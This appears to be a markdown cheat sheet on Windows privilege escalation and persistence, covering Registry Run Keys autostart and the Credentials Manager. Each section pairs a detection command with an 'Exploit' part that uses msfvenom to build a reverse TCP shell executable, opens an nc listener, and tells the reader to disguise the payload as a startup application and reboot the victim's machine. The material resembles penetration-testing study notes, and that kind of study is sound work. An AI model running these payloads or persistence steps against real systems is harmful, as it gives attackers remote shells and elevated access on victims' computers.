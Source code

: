 # RegistryAutoruns
>Logon Autostart Execution through Registry Run Keys is a Windows feature that enables specific programs or scripts to launch automatically when a user logs into the system. This feature allows these programs or scripts to launch automatically without any manual action from the user when the operating system starts up.
>Attackers may exploit the Logon Autostart Execution feature by inserting malicious software into the Registry Run Keys. This enables the malicious code to automatically launch during system startup, potentially granting it elevated privileges.

## Detect
```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
- Identify the path
## Exploit
```bash
# transfer the shell.exe to victim
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe

# open listener
nc -lvnp 1234
```
- Move the malicious executable file to the path, rename the shell.exe to the application.exe
- Reboot victim's machine

# Credentials Manager
>The Credentials Manager is a feature in Windows that securely stores usernames and passwords for websites, applications, and network resources. This component is particularly helpful for users who want to manage and retrieve their login information easily without having to remember each set of credentials.
>In a scenario where an attacker has compromised an account with access to the Windows Credentials Manager and has obtained stored credentials from an elevated account, he can potentially use the "runas" command to elevate his privileges and gain unauthorized access.

## Detect
```powershell
cmdkey /list
```

## Exploit
```bash
# Create a malicious executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > nikos.exe
# Transfer it to victim
# Set up listener
nc -lvnp 1234
```
